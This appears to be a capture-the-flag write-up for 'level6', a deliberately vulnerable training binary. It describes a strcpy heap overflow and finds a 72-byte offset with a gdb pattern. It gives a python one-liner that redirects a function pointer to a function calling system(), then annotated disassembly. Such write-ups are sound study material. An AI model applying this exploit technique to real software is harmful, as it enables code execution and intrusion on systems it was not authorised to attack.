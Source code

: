 - attack: buffer overflow
- binary behavior: segfault without parameter, Nope with parameter
- targeted functions: n, m and main
- vulnerability in n: strcpy() in comparison to strncpy() has no limitimg argument
- defense: function n with system call is non-called

Method:
- find the overflow size of strcpy
- find eip offest size after overwlofing strcpy
- find the address of n function
- overflow and change eip address by n address
 
Info:
- offset size - 72
- 08048454 - address of n function
- same in hex - \x54\x84\x04\x08

Code:
objdump -d ./level6
gdb level6
(gdb) set args Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
(gdb) r
./level6 $(python -c 'print "b" * 72 + "\x54\x84\x04\x08"') 

QA:
- how did we know the correct offset?
- overflow by any number -> get address adn pit it in 'find offset' (pattern and offset are related)

Functions

0804847c <main>:
 804847c:       55                      push   %ebp
 804847d:       89 e5                   mov    %esp,%ebp
 804847f:       83 e4 f0                and    $0xfffffff0,%esp
 8048482:       83 ec 20                sub    $0x20,%esp
 8048485:       c7 04 24 40 00 00 00    movl   $0x40,(%esp)
 804848c:       e8 bf fe ff ff          call   8048350 <malloc@plt>
 8048491:       89 44 24 1c             mov    %eax,0x1c(%esp)
 8048495:       c7 04 24 04 00 00 00    movl   $0x4,(%esp)
 804849c:       e8 af fe ff ff          call   8048350 <malloc@plt>
 80484a1:       89 44 24 18             mov    %eax,0x18(%esp)
 80484a5:       ba 68 84 04 08          mov    $0x8048468,%edx
 80484aa:       8b 44 24 18             mov    0x18(%esp),%eax
 80484ae:       89 10                   mov    %edx,(%eax)
 80484b0:       8b 45 0c                mov    0xc(%ebp),%eax
 80484b3:       83 c0 04                add    $0x4,%eax
 80484b6:       8b 00                   mov    (%eax),%eax
 80484b8:       89 c2                   mov    %eax,%edx
 80484ba:       8b 44 24 1c             mov    0x1c(%esp),%eax
 80484be:       89 54 24 04             mov    %edx,0x4(%esp)
 80484c2:       89 04 24                mov    %eax,(%esp)
 80484c5:       e8 76 fe ff ff          call   8048340 <strcpy@plt> # vulnerability
 80484ca:       8b 44 24 18             mov    0x18(%esp),%eax
 80484ce:       8b 00                   mov    (%eax),%eax
 80484d0:       ff d0                   call   *%eax
 80484d2:       c9                      leave
 80484d3:       c3                      ret

08048454 <n>:
 8048454:       55                      push   %ebp
 8048455:       89 e5                   mov    %esp,%ebp
 8048457:       83 ec 18                sub    $0x18,%esp
 804845a:       c7 04 24 b0 85 04 08    movl   $0x80485b0,(%esp)
 8048461:       e8 0a ff ff ff          call   8048370 <system@plt> #exploit
 8048466:       c9                      leave
 8048467:       c3                      ret

08048468 <m>:
 8048468:       55                      push   %ebp
 8048469:       89 e5                   mov    %esp,%ebp
 804846b:       83 ec 18                sub    $0x18,%esp
 804846e:       c7 04 24 d1 85 04 08    movl   $0x80485d1,(%esp)
 8048475:       e8 e6 fe ff ff          call   8048360 <puts@plt> # prints Nope
 804847a:       c9                      leave
 804847b:       c3                      ret

